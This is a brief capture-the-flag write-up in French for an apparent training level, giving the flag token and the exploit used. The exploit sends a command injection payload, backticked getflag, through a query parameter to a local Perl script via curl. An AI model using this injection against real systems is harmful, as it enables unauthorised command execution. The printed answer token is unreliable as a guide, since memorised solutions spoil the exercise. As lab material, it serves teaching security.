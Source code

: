Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap

Pour ce challenge nous avons exploite le script perl present dans le home.
Nous avons utilise la commande suivante afin d'executer le script perl

curl http://localhost:4747/level04.pl?x=\`getflag\`

Cela nous a permis d'envoyer la commande a executer dans le script perl qui est
getflag
